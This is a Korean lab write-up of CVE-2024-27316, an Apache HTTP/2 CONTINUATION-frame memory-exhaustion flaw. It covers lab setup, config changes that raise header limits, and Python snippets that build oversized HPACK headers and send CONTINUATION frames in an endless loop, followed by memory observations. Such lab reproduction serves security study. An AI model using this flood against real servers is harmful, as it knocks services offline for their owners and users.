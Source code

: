 ```yaml
---
layout: default
title: cve-2024-27316
category: "Apache"
nav_order: 1
parent: cve
---
```


# CVE-2024-27316
{: .no_toc }

Apache 서버 메모리 고갈 취약점
{: .fs-6 .fw-300 }

[NVD][NVD]{: .btn .fs-5 .mb-4 .mb-md-0 }
[Apache][Apache]{: .btn .fs-5 .mb-4 .mb-md-0 }

1. TOC
{:toc}

--- 

## 취약점 요약
HTTP/2 프로토콜에서 사용자가 제한을 초과하는 헤더를 지속적으로 전송할 때 nghttp2 라이브러리가 이를 임시로 메모리에 버퍼링하여 메모리 고갈을 초래할 수 있는 취약점

## 취약 대상
Apache HTTP Server 2.4.17 ~ 2.4.58 버전

## 공격 원리
- Apache Server에서 일정 크기를 초과하는 헤더에 대해 HTTP 413 응답을 생성 
- 초과된 헤더는 HPACK으로 압축된 후 nghttp2 라이브러리 내부의 메모리 버퍼에 임시로 저장
- 저장된 헤더는 다음 패킷이 처리될 때까지 유지
- 공격자는 이 취약점을 악용하여 서버에 지속적으로 초과된 길이의 HTTP/2 헤더를 전송 
- 서버는 메모리 소진으로 인해 서비스 중단 
![](../../assets/images/cve-2024-27316/attack.png)

---

## 환경 구성
- Victim: Ubuntu 22.0.4 (IP: 192.168.10.128)
- Attacker: Windows11 (IP: 192.168.9.1)

## 환경 구축
Apache Server v2.4.52 설치 및 http2 프로토콜 사용 설정
```bash
## Apache 2.4.52 설치 및 환경설정
sudo apt install apache2=2.4.52*
sudo apt install libnghttp2-dev

sudo a2enmod ssl
sudo a2enmod http2
sudo a2ensite default-ssl
sudo ufw allow 80/tcp
sudo ufw allow 8080/tcp
sudo ufw allow 443/tcp

sudo systemctl restart apache2

sudo vi /etc/apache2/sites-available/default-ssl.conf

## default.ssl 설정 - [HTTP2, HTTP 1.1 프로토콜 사용]
<IfModule mod_ssl.c>
    <VirtualHost _default_:443>
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html

        SSLEngine on
        SSLCertificateFile /etc/ssl/certs/apache-selfsigned.crt
        SSLCertificateKeyFile /etc/ssl/private/apache-selfsigned.key

        <FilesMatch "\.(cgi|shtml|phtml|php)$">
            SSLOptions +StdEnvVars
        </FilesMatch>
        <Directory /usr/lib/cgi-bin>
            SSLOptions +StdEnvVars
        </Directory>

        Protocols h2 http/1.1
        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
    </VirtualHost>
</IfModule>

sudo systemctl restart apache2

sudo vi /etc/apache2/apache2.conf

## apache2.conf 설정 - 취약점 설정[requests 헤더 사이즈에 대한 limit를 늘림]
LimitRequestFieldSize 16384
LimitRequestFields 1000
```

<br>구현 된 홈페이지 (192.168.56.1:443)
![](../../assets/images/cve-2024-27316/homepage.PNG)

## 공격 재현
Python Version : 3.12.3 <br>
Module : hpack, threading, hyperframe, socket, ssl, multiprocessing <br>
Code : ↓ (주요 함수 설명)

### import 추가 
{: .no_toc }

```py
from hpack import Encoder
import threading
from hyperframe.frame import HeadersFrame, ContinuationFrame, SettingsFrame, WindowUpdateFrame
import socket
import ssl
from multiprocessing import Process, current_process
```

### hpack을 사용하여 header 크기 압축 
{: .no_toc }

```py
def hpack_header(i):
    encoder = Encoder()
    name = f'ssssssssssssssssssssshhhhhhhhhhhhhhhhhhhhhhhwwwwwwwwwwwwwwwwwshwshwssssssssshhhhhhhhhhhwwwwwwwwwwww{i}'
    value = f'03310331033198989803319898033198980331998980331033103310331989898033198980331989803319989803319898{i}'
    headers = [(name, value)]
    encoded_headers = encoder.encode(headers)
    return encoded_headers
```

### HTTP/2 프레임 반복 생성 후 전송
{: .no_toc }

```py
    i = 0
    while True:
        continuation_frame = ContinuationFrame(1)
        continuation_frame.data = hpack_header(i)
        continuation_frame.flags.add('END_HEADERS')
        sock.sendall(continuation_frame.serialize())
        i += 1
```

## Apache 서버 DoS 공격 전후 시스템 상태 분석
Apache2 시스템 상태 모니터링

```bash
htop -p $(pgrep apache2 | tr '\n' ',')
```

<br>DoS 공격 실행 전, CPU, 메모리 사용량이 안정적으로 유지 (Mem : 475M)
![](../../assets/images/cve-2024-27316/Dos-before.png)

<br>DoS 공격으로 인해 CPU, 메모리 사용량이 증가 (Mem : 504M)
![](../../assets/images/cve-2024-27316/Dos-after.png)

<br>지속적인 공격이나 높은 부하로 인해 서버의 자원이 고갈되면 프로세스가 비정상적으로 종료
![](../../assets/images/cve-2024-27316/result.png)

---

[NVD]: https://nvd.nist.gov/vuln/detail/CVE-2024-27316
[Apache]: https://httpd.apache.org/security/vulnerabilities_24.html

[nvd api Docs]: https://nvd.nist.gov/developers/vulnerabilities
